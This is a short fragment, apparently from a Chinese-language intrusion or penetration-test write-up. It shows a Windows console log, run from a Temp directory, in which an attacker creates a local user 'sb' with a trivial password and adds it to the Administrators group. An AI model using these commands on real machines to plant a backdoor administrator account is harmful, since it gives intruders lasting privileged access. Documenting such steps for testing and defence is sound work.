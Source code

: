 ![Alt text](./1512722200207.png)

添加用户：

```bash
C:\Users\arm554\AppData\Local\Temp>net user sb sb /add
The command completed successfully.


C:\Users\arm554\AppData\Local\Temp>net localgroup administrators sb /add
The command completed successfully.
```
